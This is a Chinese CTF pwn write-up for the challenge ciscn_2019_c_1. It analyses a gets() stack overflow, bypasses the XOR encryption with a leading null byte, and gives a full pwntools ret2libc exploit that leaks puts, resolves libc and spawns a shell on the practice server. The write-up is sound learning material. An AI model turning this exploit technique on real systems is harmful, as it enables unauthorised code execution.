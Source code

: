 ```yaml
---
title: ciscn_2019_c_1
date: 2022-07-08 12:56:46
permalink: /pages/00b3b4/
categories:
  - 网络安全
  - pwn
tags:
  - 
author: 
  name: jimmy
  link: https://github.com/Riam-jimmy
---
```

# ciscn 2019 c 1

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec ciscn_2019_c_1
[*] '/root/ciscn_2019_c_1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数未发现明显漏洞，漏洞出现在输入`1`后进入的`encrypt`函数中，该函数如下

```c
int encrypt()
{
    size_t v0;  // rbx
    char s[48]; // [rsp+0h] [rbp-50h]
    __int16 v3; // [rsp+30h] [rbp-20h]
    memset(s, 0, sizeof(s));
    v3 = 0;
    puts("Input your Plaintext to be encrypted");
    gets(s);
    while (1)
    {
        v0 = (unsigned int)x;
        if (v0 >= strlen(s))
            break;
        if (s[x] <= 96 || s[x] > 122)
        {
            if (s[x] <= 64 || s[x] > 90)
            {
                if (s[x] > 47 && s[x] <= 57)
                    s[x] ^= 0xFu;
            }
            else
            {
                s[x] ^= 0xEu;
            }
        }
        else
        {
            s[x] ^= 0xDu;
        }
        ++x;
    }
    puts("Ciphertext");
    return puts(s);
}
```

## 思路分析

1. 目前信息
   - 栈上变量`s`处可写入任意长度数据
   - 本题无后门函数
1. 问题
   - `s`变量处写入的数据将会被后续代码加密导致无法使用
3. 解决思路
   - 加密部分使用了`strlen`函数该函数从字符串的开头位置依次向后计数，直到遇见`\0`，然后返回计时器的值。最终统计的字符串长度不包括`\0`，这里可以构造一个特殊的首位是`\0`的`payload`提前`break`掉，从而绕过加密
   - 因为本题无可用后门函数，所以需要先泄露`libc`的版本和函数地址，接着再通过泄漏出的地址构造`rop`链劫持控制流以获得`shell`

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/ciscn_2019_c_1/ciscn_2019_c_1'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 28284)
elf = ELF(pwnfile)
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi_ret = 0x400c83
encrypt_addr = elf.symbols['encrypt']
padding = 0x50+8
io.recvuntil('Input your choice!\n')
io.sendline(str(1))
payload = flat(['\0', 'a'*(padding-1), pop_rdi_ret,puts_got, puts_plt, encrypt_addr])
# 首位\0绕过加密
io.sendlineafter('\n', payload)
leak_puts_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
# 泄漏puts的地址
print("leak puts addr:{0}".format(hex(leak_puts_addr)))
libc = LibcSearcher('puts', leak_puts_addr)
# 泄漏libc版本
libcbase = leak_puts_addr-libc.dump('puts')
system_addr = libcbase+libc.dump('system')
bin_sh_addr = libcbase+libc.dump('str_bin_sh')
ret = 0x4006b9
payload = flat(['\0', 'a'*(padding-1), ret,pop_rdi_ret, bin_sh_addr, system_addr])
io.sendlineafter('encrypted\n', payload)
io.recv()
io.interactive()
```